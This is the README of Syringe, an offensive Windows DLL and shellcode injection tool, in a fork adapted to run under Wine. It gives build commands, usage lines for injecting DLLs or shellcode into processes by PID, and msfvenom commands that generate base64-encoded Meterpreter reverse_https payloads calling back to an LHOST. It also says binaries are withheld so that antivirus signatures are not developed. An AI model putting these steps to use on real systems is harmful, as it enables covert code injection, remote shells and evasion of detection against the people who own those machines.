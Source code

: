 # Syringe

Syringe is a general purpose DLL and code injection utility for 32 and 64-bit
Windows. It is capable of executing raw shellcode as well as injecting
shellcode or a DLL directly into running processes.

**The aim of this fork is run this program in Linux via Wine**

## Compilation

Syringe is distributed in source code form only. Compiled binary files are not available.
This was a conscious decision in order to prevent AV signatures from being developed.
As such, users will have to compile Syringe locally.
Syringe is meant to be compiled in Visual Studio 2013, other versions of VS, and other IDEs are not supported.
Syringe can be compiled by loading the provided project file (syringe.sln) with VS, specifying the desired architecture, and building.

### MinGW

brought to you by LibSEH (v0.0.4) from [here](http://www.programmingunlimited.net/siteexec/content.cgi?page=libseh)

cmd : `x86_64-w64-mingw32-gcc -o syringe.exe syringe.c syringe_core.c -lcrypt32`

## Usage

Syringe supports three options for injection (specified with "-1", "-2", or "-3").  The following examples assume the x86 version.

* DLL injection.
  * Using the "-1" option, Syringe can inject an arbitrary DLL into a process specified by a process ID.
  * Usage: `syringe.x86.exe -1 <DLL file> <PID>`
* Shellcode Injection
  * Using the "-2" option, Syringe can inject specifically formatted shellcode into a specified process.
  * Usage: `syringe.x86.exe -2 <shellcode> <PID>`
* Shellcode Injection Alternative
  * Using the "-3" option, Syringe can inject specifically formatted shellcode into itself (no PID necessary).
  * Usage: `syringe.x86.exe -3 <shellcode>`

### find PID with Wine

`wine tasklist | grep <TASK NAME> | cut -d',' -f2`

### Formatting Shellcode

Syringe requires shellcode to be supplied in a base64 encoded format.
The following commands can be used on most \*nix systems (with [Metasploit](https://github.com/rapid7/metasploit-framework) installed) to generate the shellcode appropriately.
**Be sure to change the "LHOST", "LPORT" and "-p" options accordingly.**

* x86 shellcode
  * `sudo msfvenom -p windows/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`
* x64 shellcode
  * `sudo msfvenom -p windows/x64/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`

## License

Syringe is released under the BSD 3-clause license, for more details see the
[LICENSE](https://github.com/securestate/syringe/blob/master/LICENSE) file.
